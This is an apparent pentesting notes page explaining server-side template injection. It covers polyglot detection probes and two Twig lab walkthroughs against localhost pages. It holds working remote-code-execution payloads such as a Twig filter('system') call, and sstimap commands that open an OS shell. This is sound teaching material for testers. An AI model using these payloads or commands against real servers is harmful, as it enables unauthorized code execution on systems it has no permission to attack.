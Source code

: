 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSTI

{% hint style="success" %}
**Server-Side Template Injection (SSTI)** occurs when an attacker injects code native to the template engine into a web page, which the template engine then executes, granting the attacker code execution on the server.
{% endhint %}

> _**Template Engines** are used to display dynamically generated content on a web page. They replace the variables inside a template file with actual values and display these values to the client._&#x20;

## Identification

### Manual

We can use polyglots to induce errors. The **error polyglot** produces an error message to 44 template engines. However, errors might be caught by the application. The **non-error polyglots** are constructed in such a way that at least one of them does not throw an error, but renders the polyglot modified for all popular template engines.

```bash
# The error polyglot
<%'${{/#{@}}%>{{
# Non-error polyglots
">[[${{1}}]]
<%=1%>@*#{1}
{##}/*{{.}}*/
```

```
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

<figure><img src="../../../.gitbook/assets/ssti_portswigger_diagram.png" alt=""><figcaption><p>Figure 1: Identifying template engines (<em>image taken from</em> <a href="https://portswigger.net/web-security/server-side-template-injection"><em>here</em></a>).</p></figcaption></figure>

### Automatic

Tools like [TInjA](https://github.com/Hackmanit/TInjA), [SSTImap](https://github.com/vladko312/sstimap), and [j2ee-scan](https://github.com/PortSwigger/j2ee-scan) (Burp Pro) can automatically test for SSTI flaws by injecting combinations of special characters in template expressions (`${{<%[%'"}}%\`). Vulnerability indicators include:

* Thrown errors, revealing the vulnerability and potentially the template engine.
* Absence of the payload in the reflection, or parts of it missing, implying the server processes it differently than regular data.
* **Plaintext Context**: Distinguish from XSS by checking if the server evaluates template expressions.
* **Code Context**: Confirm vulnerability by altering input parameters. For instance, changing `greeting` in `http://vulnerable-website.com/?greeting=data.username` to see if the server's output is dynamic or fixed, like in `greeting=data.username}}hello` returning the username.

## Examples

### Twig

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 2).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_1.png" alt=""><figcaption><p>Figure 2: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined on Figure 1 (Figure 3).

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><img src="../../../.gitbook/assets/web_ssti_basic_1.png" alt=""><figcaption><p>Figure 3: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed an SSTI and not a client-side, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig) and achieve RCE[^1] (Figure 4).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_2.png" alt=""><figcaption><p>Figure 4: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```
{% endcode %}

### Twig (2)

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time when we try different payloads they just print in the page. However, when we `Edit Card` and `Save Changes`, a `POST` request is generated (Figure 5).

<figure><img src="../../../.gitbook/assets/web_ssti_twig_3.png" alt=""><figcaption><p>Figure 5: A potential location for SSTI.</p></figcaption></figure>

When we inject the payload within the `Edit Card`, it gets executed (Figure 6).

<figure><img src="../../../.gitbook/assets/web_ssti_twig_4.png" alt=""><figcaption><p>Figure 6: Performing a successful SSTI.</p></figcaption></figure>

Next, we can use `sstimap` to achieve RCE[^2] (Figure 7).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x02.php" --data 'cardHtml=*' --engine twig --method POST --os-shell
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_ssti_twig_5.png" alt=""><figcaption><p>Figure 7: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Theory" %}
{% embed url="https://hackmanit.de/en/blog-en/178-template-injection-vulnerabilities-understand-detect-identify" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
{% endtab %}

{% tab title="SSTI Table" %}
{% embed url="https://cheatsheet.hackmanit.de/template-injection-table/" %}
{% endtab %}
{% endtabs %}

[^1]: Remote Code Execution

[^2]: Remote Code Execution
